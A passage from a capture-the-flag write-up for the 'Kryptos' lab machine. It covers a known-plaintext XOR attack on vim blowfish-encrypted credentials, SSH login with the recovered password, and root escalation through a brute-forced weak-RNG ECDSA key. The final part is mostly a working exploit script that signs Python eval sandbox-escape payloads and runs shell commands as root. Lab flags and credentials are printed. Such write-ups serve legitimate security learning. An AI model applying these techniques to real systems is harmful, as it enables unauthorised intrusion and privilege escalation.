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
        ```
     2. Base64 decoded then RC4 decrypted then hex encoded content:
        ```
        53 51 4c 69 74 65 20 66 6f 72 6d 61 74 20 33 ...omitted...
        ...omitted...
        5b 5b 5b 56 69 6d 43 72 79 70 74 7e 30 32 21 0b 18 e4 35 cb 56 12 9a 35 44 80 40 70 3b 96 2d 93 0d a8 10 76 6e 64 5d c1 4b e2 1c 79 59 43 7d d9 35 fb 36 67 4d 52 41 8b 6e 5d 5d 5d
        ```
     __NOTE(S)__:
     1. `creds.txt` is an encrypted vim file:
        - It is encrypted using `VimCrypt~02!` or using `:set cm=blowfish`
        - __*blowfish*__ is a block cipher and vim's implementation is using a Cipher Feedback (CFB) mode of encrpytion.
     2. The __*salt*__, __*IV*__, and __*data*__ are `0b 18 e4 35 cb 56 12 9a`, `35 44 80 40 70 3b 96 2d`, and `93 0d a8 10 76 6e 64 5d c1 4b e2 1c 79 59 43 7d d9 35 fb 36 67 4d 52 41 8b 6e` respectively.

---

## PART 4 : GENERATE USER SHELL

1. Decrpyt `creds.txt` using `creds.old`:
   1. Hex encode the first 8 bytes of creds.old:
      ```
      72 69 6a 6e 64 61 65 6c (rijndael)
      ```
   2. XOR the first 8 bytes of `creds.old` with the first 8 bytes of data from `creds.txt`:
      ```
      [72 69 6a 6e 64 61 65 6c] XOR [93 0d a8 10 76 6e 64 5d] -> [e1 64 c2 7e 12 0f 01 31]
      ```
   3. XOR the output from #2 with the entire data from `creds.txt`:
      ```
      [e1 64 c2 7e 12 0f 01 31] XOR [93 0d a8 10 76 6e 64 5d c1 4b e2 1c 79 59 43 7d d9 35 fb 36 67 4d 52 41 8b 6e] -> [72 69 6a 6e 64 61 65 6c 20 2f 20 62 6b 56 42 4c 38 51 39 48 75 42 53 70 6a 0a]
      ```
   4. Decode the hex output from #3:
      ```
      rijndael / bkVBL8Q9HuBSpj
      ```
   __NOTE(S)__:
   1. __vim__'s implementation of blowfish is vulnerable for small files (~64 bytes):
      - The first 8 blocks use the same IV along with a key to form a key stream.
      - Knowing part of the plaintext already can make corresponding parts of the ciphertext guessable.
   2. __ASSUMPTION__: `creds.old` follows the same format as `creds.txt`
      - The first 8 bytes of `creds.old` decodes __rijndael__
      - The first 8 bytes of `creds.txt` should also be __rijndael__
   3. The key stream (the string XORed to the plaintext to generate the ciphertext) should be reversible by doing #2.
      - The output from #2 now serves as the key stream generated from using the IV and key

2. Login via SSH as `rijndael`:
   ```console
   ssh -l rijndael 10.10.10.129
   
   # rijndael@10.10.10.129's password: bkVBL8Q9HuBSpj
   ```
   - While inside `rijndael`'s shell:
     ```console
     ls -la

     # ...omitted...
     # -rw-rw-r-- 1 root     root       21 Oct 30  2018 creds.old
     # -rw-rw-r-- 1 root     root       54 Oct 30  2018 creds.txt
     # ...omitted...
     # drwx------ 2 rijndael rijndael 4096 Mar 13 12:01 kryptos
     # ...omitted...
     # -r-------- 1 rijndael rijndael   33 Oct 30  2018 user.txt

     ls -la ./kryptos
     
     # -r-------- 1 rijndael rijndael 2257 Mar 13 12:01 kryptos.py

     cat user.txt

     # 92b69719917528cc6b19fd551da90de2
     ```

---

## PART 5 : PRIVILEGE ESCALATION (rijndael -> root)

1. Check for processes run by `root`:
   ```console
   ps -auwxx
   
   # ...omitted...
   # root       763  0.0  0.4  68516 19096 ?        Ss   13:56   0:00 /usr/bin/python3 /root/kryptos.py
   # ...omitted...
   ```
   __NOTE(S)__:
   1. There is a `kryptos.py` file stored in __rijndael__'s home directory.

2. Examine `kryptos.py` from `~/kryptos`:
   ```py
   import random 
   import json
   import hashlib
   import binascii
   from ecdsa import VerifyingKey, SigningKey, NIST384p
   from bottle import route, run, request, debug
   from bottle import hook
   from bottle import response as resp
   
   
   def secure_rng(seed): 
       # Taken from the internet - probably secure
       p = 2147483647
       g = 2255412
   
       keyLength = 32
       ret = 0
       ths = round((p-1)/2)
       for i in range(keyLength*8):
           seed = pow(g,seed,p)
           if seed > ths:
               ret += 2**i
       return ret
   
   # Set up the keys
   seed = random.getrandbits(128)
   rand = secure_rng(seed) + 1
   sk = SigningKey.from_secret_exponent(rand, curve=NIST384p)
   vk = sk.get_verifying_key()
   
   def verify(msg, sig):
       try:
           return vk.verify(binascii.unhexlify(sig), msg)
       except:
           return False
   
   def sign(msg):
       return binascii.hexlify(sk.sign(msg))
   
   @route('/', method='GET')
   def web_root():
       response = {'response':
                   {
                       'Application': 'Kryptos Test Web Server',
                       'Status': 'running'
                   }
                   }
       return json.dumps(response, sort_keys=True, indent=2)
   
   @route('/eval', method='POST')
   def evaluate():
       try: 
           req_data = request.json
           expr = req_data['expr']
           sig = req_data['sig']
           # Only signed expressions will be evaluated
           if not verify(str.encode(expr), str.encode(sig)):
               return "Bad signature"
           result = eval(expr, {'__builtins__':None}) # Builtins are removed, this should be pretty safe
           response = {'response':
                       {
                           'Expression': expr,
                           'Result': str(result) 
                       }
                       }
           return json.dumps(response, sort_keys=True, indent=2)
       except:
           return "Error"
   
   # Generate a sample expression and signature for debugging purposes
   @route('/debug', method='GET')
   def debug():
       expr = '2+2'
       sig = sign(str.encode(expr))
       response = {'response':
                   {
                       'Expression': expr,
                       'Signature': sig.decode() 
                   }
                   }
       return json.dumps(response, sort_keys=True, indent=2)
   
   run(host='127.0.0.1', port=81, reloader=True)
   ```
   __NOTE(S)__:
   1. This must be the source code of the script being run by root
   2. A web server is being hosted locally on port 81:
   3. Requesting on `/eval` requires an expression (`expr`) and a signature (`sig`)
      - `expr` is passed to an `eval()` function.
      - However, a valid signature is needed for the string to be evaluated.
      - The expression is signed using ECDSA with an NIST384p curve.
   4. The exponent used to generate the signature is derived from the "random number generator" function, `secure_rng(seed)`.
      - The seed is derived using `random.getrandbits(128)`.

3. Create an exploit (`kryptos_root.py`) for `kryptos.py`:
   ```py
   import hashlib
   import binascii
   import requests as r
   from ecdsa import VerifyingKey, SigningKey, NIST384p
   
   p = 2147483647
   g = 2255412
   
   def getCongruence():
   
       ...omitted...  
 
   def generateRandomNumber(seed):
   
       ret = 0
       for i in range(32 * 8):
           seed = pow(g,seed,p)
           if seed > (p-1)/2:
               ret += 2**i
       return ret
   
   def getUniqueNumbers(order_p):

       ...omitted...
   
   def getExponent(unique_rng_values):
   
       ...omitted...   

   def requestEval(message, signature):
       data = {
           "expr": message,
           "sig": signature.decode()        
       }
       return r.post("http://127.0.0.1:81/eval", json=data)
   
   # ===MAIN-FUNCTION==================================================
   
   __import__("os").system("clear")
   
   print("\n[KryptOS RNG Enumeration]\n")
   lambda_p = getCongruence()
   print("\t[+] order(p,g) = {}".format(len(lambda_p)))
   
   unique_rng_values = getUniqueNumbers(getCongruence())
   print("\t[+] The are {} possible RNG values\n".format(len(unique_rng_values)))
   
   print("[BRUTEFORCING THE rand VALUE]\n")
   exponent = getExponent(unique_rng_values)
   print("\t[+] ECDSA Signing Key Exponent: {}\n".format(exponent))
   
   sk = SigningKey.from_secret_exponent(exponent, curve=NIST384p)
   message = '[x for x in ().__class__.__base__.__subclasses__()][250]'
   while True:
       command = input("root@kryptos# ").strip()
       execute = '("' + command + '", shell=True, stdout=-1).communicate()'
   
       payload = message + execute
       signature = binascii.hexlify(sk.sign(str.encode(payload)))
       stdout = requestEval(payload, signature).json()['response']['Result']
   
       print(bytes(stdout[3:-8], "utf-8").decode("unicode_escape"))
   ```
   __NOTE(S)__:
   1. This script serves as an automator for command execution in the web server.
   2. `getCongruence()`:
      ```py
      order_p = [1]
      k = 1
      while True:
          gk_mod_p = pow(g, k ,p)
          if gk_mod_p == order_p[0]: break
          else:
              order_p.append(gk_mod_p)
              k += 1
      return order_p
      ```
      __NOTE(S)__:
      1. This is based on the definition of __*primitive roots*__:
         - If `g` is a primitive root of `p`, then the congruence classes will contain all possible "__*totatives*__" of `p`.
         - __*Totatives*__ are defined by all values, `n`, where `gcd(n,p) = 1`.
         - The goal is to find all the possible totatives or at least the order of values relative to `p`.
      2. It is said that `g` is a __*primitive root modulo `p`*__ if a value, `a`, coprime to `p` is congruent to `g^k mod p`
         - Primitive root or not, `g` relative to `p`, should still have a cycle which is a subset of the congruence classes.
      3. The defined function above's return value, `order_p`, is an array of integers relatively prime to `p`.

   3. `generateRandomNumber(seed)`:
      - This was taken from the `secure_rng(seed)` function from `kryptos.py`.
      - This seems to be based on the __*Blum-Micali algorithm*__.

   4. `getUniqueNumbers(order_p)`:
      ```py
      rng_unique = []
      for i in order_p:
          num = generateRandomNumber(i)
          if num not in rng_unique: rng_unique.append(num)
  
      return rng_unique
      ```
      __NOTE(S)__:
      1. This values from `order_p` are passed to this function to generate all possible values from the __Pseudo Random Number Generator (PRNG)__.
         - Since the possible values for the seed are already known, the unique integers generated by the PRNG should be __`len(rng_unique) <= len(order_p)`__.

   5. `getExponent(unique_rng_values)`:
      ```py
      for i in unique_rng_values:
          sk = SigningKey.from_secret_exponent(i+1, curve=NIST384p)
          signature = binascii.hexlify(sk.sign(str.encode('2+2')))
          req = requestEval("2+2", signature)
           
          if "Bad signature" not in req.text: return i+1
      ```
      __NOTE(S)__:
      1. Since there are now only reasonable number of values left to work with, the exponent used for signing the `expr` parameter should now be easily retrieved via bruteforcing using repeated requests.

4. Upload then execute `kryptos_root.py` inside the kryptos machine:
   - Local machine:
     ```console
     scp ./kryptos_root.py rijndael@10.10.10.129:/var/tmp/kryptos_root.py

     # rijndael@10.10.10.129's password: bkVBL8Q9HuBSpj
     ```
  
   - kryptos machine:
     ```console
     python3 /var/tmp/kryptos_root.py

     #
     # [KryptOS RNG Enumeration]
     #
     #     [+] order(p,g) = 331
     #     [+] The are 157 possible RNG values
     #
     # [BRUTEFORCING THE rand VALUE]
     #
     #     [+] ECDSA Signing Key Exponent: 7470457370149431962811031290883090829243224817138100905771457032768594303611
     # 
     # root@kryptos# id
     # uid=0(root) gid=0(root) groups=0(root)
     # 
     # root@kryptos# find /root -name root.txt
     # /root/root.txt
     #
     # root@kryptos# cat /root/root.txt
     # 6256d6dcf75cb62343e023ae9e567c6e
     #
     # root@kryptos# 
     ```
